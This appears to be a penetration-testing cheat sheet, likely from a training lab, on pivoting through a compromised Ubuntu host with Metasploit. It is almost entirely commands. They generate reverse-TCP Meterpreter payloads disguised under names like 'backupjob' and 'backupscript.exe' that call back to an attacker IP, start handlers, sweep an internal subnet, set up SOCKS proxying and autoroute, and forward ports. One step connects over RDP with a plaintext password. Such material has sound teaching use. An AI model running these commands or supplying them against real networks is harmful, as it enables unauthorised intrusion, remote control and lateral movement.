 
**Creating Payload for Ubuntu Pivot Host
```shell-session
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```
- l host is attack ip

**Configuring & Starting the multi/handler
```shell-session
use exploit/multi/handler
```
```shell-session
set lhost 0.0.0.0
```
```shell-session
set lport 8080
```
```shell-session
set payload linux/x64/meterpreter/reverse_tcp
```
```shell-session
run
```

Copy the payload over to the pivot host
- scp /path/to/local/file username@remote_host:/path/to/remote/destination

**Executing the Payload on the Pivot Host
```shell-session
ls
```
```shell-session
chmod +x backupjob 
```
```shell-session
./backupjob
```

**Meterpreter Session Establishment
```shell-session
pwd
```

**Ping Sweep
```shell-session
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

**Ping Sweep For Loop on Linux Pivot Hosts
```shell-session
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

**Ping Sweep For Loop Using CMD
```cmd-session
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

**Ping Sweep Using PowerShell
```powershell-session
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.16.5.$($_) -quiet)"}
```

- Ping sweep at least twice to ensure the arp cache gets built


- If ICMP ping is blocked by firewall, we will socks proxy

**Configuring MSF's SOCKS Proxy
```shell-session
use auxiliary/server/socks_proxy
```
```shell-session
set SRVPORT 9050
```
```shell-session
set SRVHOST 0.0.0.0
```
```shell-session
set version 4a
```
```shell-session
run
```
```shell-session
jobs
```

**Adding a Line to proxychains.conf if needed
```shell-session
socks4 	127.0.0.1 9050
```

**Creating Routes with AutoRoute
```shell-session
use post/multi/manage/autoroute
```
```shell-session
set SESSION 1
```
```shell-session
set SUBNET 172.16.5.0
```
```shell-session
run
```

**Or

```shell-session
run autoroute -s 172.16.5.0/23
```
(meterpreter session)

```shell-session
run autoroute -p
```

**Testing Proxy & Routing Functionality
```shell-session
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

**Port Forwarding
```shell-session
help portfwd
```

**Creating Local TCP Relay
```shell-session
portfwd add -l 3300 -p 3389 -r 172.16.5.19
```
- -l starts a listener on our local attack host's local port 3300
- -r forward all the packets to the remote Windows server 172.16.5.19 on
- -p port 3389 via our Meterpreter session

**Connecting to Windows Target through localhost
```shell-session
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```
```shell-session
netstat -antp
```


### Meterpreter Reverse Port Forwarding

**Reverse Port Forwarding Rules
```shell-session
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```
- forwards all connections on port 1234 running on the Ubuntu server to our attack host on local port 8081.
- We configure our listener to listen on port 8081 for a Windows shell.

**Configuring & Starting multi/handler
```shell-session
bg
```
```shell-session
set payload windows/x64/meterpreter/reverse_tcp
```
```shell-session
set LPORT 8081
```
```shell-session
set LHOST 0.0.0.0 
```
```shell-session
run
```

**Generating the Windows Payload
```shell-session
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```


